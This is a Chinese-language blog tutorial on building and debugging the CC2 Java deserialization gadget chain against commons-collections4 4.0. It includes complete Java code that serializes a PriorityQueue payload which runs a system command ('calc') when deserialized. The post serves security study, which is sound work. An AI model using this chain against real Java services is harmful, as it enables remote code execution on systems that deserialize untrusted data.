+++
date = '2026-04-23T20:54:32+08:00'
draft = false
title = 'Java Deserialization CC2'
categories = ["java"]
tags = ["java-security", "deserialization", "cc2"]
+++

# 前言

本文主要介绍一下CC2的构造过程还有gadget链调试过程

---

# 一、CC2调用链的整体概览

首先先看一下ysoserial给出的gadget链条

```java
/*
	Gadget chain:
		ObjectInputStream.readObject()
			PriorityQueue.readObject()
				...
					TransformingComparator.compare()
						InvokerTransformer.transform()
							Method.invoke()
								Runtime.exec()
 */
```

可以看到作者是使用了`PriorityQueue`来作为起点，中间省略了一些步骤，最终使用比较这个操作，来触发`transfrom（）`方法来实现反射执行

# 二、环境

首先引入漏洞库，注意这里的漏洞库和CC1不一样，是`commons-collections4:4.0`

```xml
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.0</version>
</dependency>
```

java版本选择JDK8u65

# 三、CC2链详解

## 1.大体串联gadget链

首先先看一下`PriorityQueue`这个类，然后先把作者给省略的部分复原一下，把这个gadget链给先接起来，然后经过分析，其调用链条为

`PriorityQueue.readOject() -> PriorityQueue.heapify() -> PriorityQueue.siftDown() -> PriorityQueue.siftDownUsingComparator() ->TransformingComparator.compare() `，具体代码如下









是`PriorityQueue`的`readObject`方法中使用了比较队列的两个值，然后经过一系列调用，最终走到transfrom这个方法

这里我们先不用管这些if条件什么的，我们目前做的只是把这个调用链，先能连起来

## 开始构造Gadget链

这里主要是说一下自己怎么构造Gadget链，要接受自己不能一次性构造好（如果一次就能构造好那肯定最好），由于我只有大框架，没有对被利用类的详细逻辑进行分析，所以需要调试来追踪代码执行逻辑

因为后半段链条和CC1一样，我们直接复用就好了

```java
Transformer[] transformers = new Transformer[]{
    new ConstantTransformer(Runtime.class),
    new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
    new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{Runtime.class,null}),
    new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
};
ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
```

然后开始构造前半段链条，我一般是从sink点向source点构造的

先连通`TransformingComparator`类调用`transform`这个方法，主要是调用`compare`这个方法来调用`transform`



然后这里可以小小分析一下代码--没啥限制，只要走到`compare`这个方法就能执行成功

然后还需要看一下`TransformingComparator`的构造函数，看是否能直接注入字段值



很完美，可以直接注入属性值

接下来就是大头，需要看一下`PriorityQueue`这个类的那些方法有啥区别，先看构造函数



我们看这个，因为我们需要把`TransformingComparator`塞进去，他也是public，所以可以直接注入

然后开始分析我们的`PriorityQueue`

这里直接把重点提取出来看

- readObject没有if判断，是顺序执行，不用管

- heapify这个方法，他是一个循环，然后他的循环条件是和size有关，我们需要让size有值

  ```java
  private void heapify() {
          for (int i = (size >>> 1) - 1; i >= 0; i--)
              siftDown(i, (E) queue[i]);
      }
  ```

  我们分析一下这个逻辑，`size >>> 1`是把size右移一位，那就告诉我们，我们的size的值必须大于1，才能进入循环体内部，很好理解，队列必须有两个或两个以上的元素，才可以进行比较操作

- siftDown这个方法里面有一个判断，必须字段comparator不为空，才可以往下走，这个我们可以轻易满足，因为我们初始化`PriorityQueue`的时候就已经塞入`TransformingComparator`了

- 最后看`siftDownUsingComparator`这个方法，他的大体逻辑是在调整堆，然后触发compare，那我们也是天然满足

  

那我们现在已经有了构造的思路，就是我们只需要保证size的值>=2就行，接下来开始构造

```java
TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
priorityQueue.add(new Integer(1));
priorityQueue.add(new Integer(2));
serialize(priorityQueue);
```

然后我们开始序列化，再反序列化，看构造的gadget链是否成功

结果发现报错了



这里看一下报错原因，说是`ProcessImpl`不可以被序列化，怎么突然冒出来这个东西，他其实是我们弹出计算器操作的返回值



在cc1中我们说过，`Runtime`这个类不能被序列化，那他的返回值`Process`也不能序列化，导致报错

那就有问题了，我们明明没有执行反序列化操作，`PriorityQueue`的`readObject`并没有执行，怎么会触发Gadget呢

我们经过调试，其实之前也提到了，就是这句话**他的大体逻辑是在调整堆，然后触发compare，那我们也是天然满足**，就是说我们在构造的时候，往队列中放入元素的时候，可能是调整堆，可能是内部的重新排列调用了`compare`方法，导致sink提前触发。接下来我们就针对这个修改

### 修补gadget

上面我们已经明确了是因为`compare`方法的提前调用，导致`transform`方法被执行，进而导致命令执行，返回了一个`Process`,但他不能被序列化，导致gadget构造失败

这里给出解决办法，既然是我们在加入元素的时候，触发`compare`，导致返回了`Process`，那我们就可以我们先给他一个安全的（或者说可以返回一个可被序列化的东西）Transform,然后我们再加入元素，这里就任他`compare`，等他比较完了，我们在修改Transform，把命令执行的放入，这么做的原因就是不会提前执行我们的payload

具体执行代码如下

```java
public static void main(String[] args) throws IOException, NoSuchFieldException, IllegalAccessException {
    Transformer[] fakeTransformers = new Transformer[]{
        new ConstantTransformer(1),
    };
    Transformer[] transformers = new Transformer[]{
        new ConstantTransformer(Runtime.class),
        new InvokerTransformer("getMethod", new Class[]{String.class,Class[].class}, new Object[]{"getRuntime",null}),
        new InvokerTransformer("invoke", new Class[]{Object.class,Object[].class}, new Object[]{Runtime.class,null}),
        new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
    };
    ChainedTransformer chainedTransformer = new ChainedTransformer(fakeTransformers);
    TransformingComparator transformingComparator = new TransformingComparator(chainedTransformer);
    PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
    priorityQueue.add(new Integer(1));
    priorityQueue.add(new Integer(2));
    Field iTransformersField = chainedTransformer.getClass().getDeclaredField("iTransformers");
    iTransformersField.setAccessible(true);
    iTransformersField.set(chainedTransformer,transformers);
    serialize(priorityQueue);
}
```

这样序列化不报错，反序列化弹出计算器



---

# 总结

然后我把这个博客喂给ai，让他给我生成一张调用链，看着画的还挺好，ai太强大了



学习CC2所了解的事情就是，我们在构造payload的时候，如果在构造的过程中，由于被利用类提前执行了gadget链的某些方法，导致提前执行并返回了不可序列化的对象，我们的解决方法可以是，先传入无危害的对象，等他执行完他的方法，我们再通过反射修改对象，这样防止提前执行。

后续我会先把cc链都更新完，但是不会按照顺序更新，我会把我认为能学习到的新东西先更新出来，如果只是复用或者单纯组合，我会收集到一个新的文章里面。